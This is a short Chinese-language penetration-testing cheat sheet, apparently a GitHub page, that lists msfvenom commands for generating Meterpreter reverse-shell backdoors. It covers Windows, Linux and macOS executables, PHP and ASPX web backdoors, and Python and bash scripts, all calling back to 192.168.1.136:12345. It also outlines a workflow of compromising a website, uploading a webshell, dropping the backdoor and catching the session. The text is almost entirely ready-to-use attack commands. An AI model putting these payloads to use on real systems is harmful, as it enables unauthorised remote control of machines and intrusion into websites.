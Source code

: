 ```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe
```

- linux

```shell
#64位架构
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f elf -o 123.elf

#32位架构
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f elf -o 123.elf
```

- mac

```shell
msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f macho -o 123.macho
```



msfvenom 生成 web 后门：

- php

```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f raw -o 123.php
```

- aspx 

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f aspx -o 123.aspx
```



msfvenom生成脚本后门

- python

```shell
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f raw
```

- bash

```shell
msfvenom -p cmd/uninx/reverse_bash lhost=192.168.1.136 lport=12345 -f raw
```



命令执行漏洞完成msfvenom后门上线

一 、渗透测试msfvenom生成的后门一般方法：

1. 攻击web站点，上传webshell
2. 通过webshell再次上传msfvenom后门
3. 攻击机开启handler监听，靶机运行msfvenom后门，上线 （linux操作系统 elf记得改权限）



二、msf web_delivery 上线meterpreter
